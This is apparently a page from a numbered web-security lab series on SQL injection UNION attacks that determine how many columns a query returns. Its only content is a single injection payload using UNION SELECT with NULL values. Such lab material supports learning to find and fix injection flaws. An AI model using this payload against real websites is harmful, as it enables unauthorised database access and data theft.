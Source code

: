 ```yaml
---
layout: default
title: 07 - SQL injection UNION attack, determining the number of columns returned by the query
---
```


```SQL
'+UNION+SELECT+NULL,NULL,NULL--
```
